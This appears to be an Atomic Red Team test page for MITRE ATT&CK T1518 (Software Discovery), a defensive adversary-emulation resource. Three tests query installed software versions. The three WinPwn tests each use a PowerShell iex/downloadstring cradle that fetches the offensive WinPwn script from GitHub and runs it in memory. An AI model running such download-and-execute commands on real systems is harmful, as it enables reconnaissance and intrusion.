 # T1518 - Software Discovery

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1518)

<blockquote>Adversaries may attempt to get a listing of software and software versions that are installed on a system or in a cloud environment. Adversaries may use the information from [Software Discovery](https://attack.mitre.org/techniques/T1518) during automated discovery to shape follow-on behaviors, including whether or not the adversary fully infects the target and/or attempts specific actions.

Adversaries may attempt to enumerate software for a variety of reasons, such as figuring out what security measures are present or if the compromised system has a version of software that is vulnerable to [Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Find and Display Internet Explorer Browser Version](#atomic-test-1---find-and-display-internet-explorer-browser-version)

- [Atomic Test #2 - Applications Installed](#atomic-test-2---applications-installed)

- [Atomic Test #3 - Find and Display Safari Browser Version](#atomic-test-3---find-and-display-safari-browser-version)

- [Atomic Test #4 - WinPwn - Dotnetsearch](#atomic-test-4---winpwn---dotnetsearch)

- [Atomic Test #5 - WinPwn - DotNet](#atomic-test-5---winpwn---dotnet)

- [Atomic Test #6 - WinPwn - powerSQL](#atomic-test-6---winpwn---powersql)

<br/>

## Atomic Test #1 - Find and Display Internet Explorer Browser Version

Query the registry to determine the version of internet explorer installed on the system.
Upon execution, version information about internet explorer will be displayed.

**Supported Platforms:** Windows

**auto_generated_guid:** 68981660-6670-47ee-a5fa-7e74806420a4

#### Attack Commands: Run with `command_prompt`!

```cmd
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer" /v svcVersion
```

<br/>
<br/>

## Atomic Test #2 - Applications Installed

Query the registry to determine software and versions installed on the system. Upon execution a table of
software name and version information will be displayed.

**Supported Platforms:** Windows

**auto_generated_guid:** c49978f6-bd6e-4221-ad2c-9e3e30cc1e3b

#### Attack Commands: Run with `powershell`!

```powershell
Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Format-Table -Autosize
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Format-Table -Autosize
```

<br/>
<br/>

## Atomic Test #3 - Find and Display Safari Browser Version

Adversaries may attempt to get a listing of non-security related software that is installed on the system. Adversaries may use the information from Software Discovery during automated discovery to shape follow-on behaviors

**Supported Platforms:** macOS

**auto_generated_guid:** 103d6533-fd2a-4d08-976a-4a598565280f

#### Attack Commands: Run with `sh`!

```sh
/usr/libexec/PlistBuddy -c "print :CFBundleShortVersionString" /Applications/Safari.app/Contents/Info.plist
/usr/libexec/PlistBuddy -c "print :CFBundleVersion" /Applications/Safari.app/Contents/Info.plist
```

<br/>
<br/>

## Atomic Test #4 - WinPwn - Dotnetsearch

Search for any .NET binary file in a share using the Dotnetsearch function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 7e79a1b6-519e-433c-ad55-3ff293667101

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
Dotnetsearch -noninteractive -consoleoutput
```

<br/>
<br/>

## Atomic Test #5 - WinPwn - DotNet

Search for .NET Service-Binaries on this system via winpwn dotnet function of WinPwn.

**Supported Platforms:** Windows

**auto_generated_guid:** 10ba02d0-ab76-4f80-940d-451633f24c5b

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
dotnet -consoleoutput -noninteractive
```

<br/>
<br/>

## Atomic Test #6 - WinPwn - powerSQL

Start PowerUpSQL Checks using powerSQL function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 0bb64470-582a-4155-bde2-d6003a95ed34

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
powerSQL -noninteractive -consoleoutput
```

<br/>
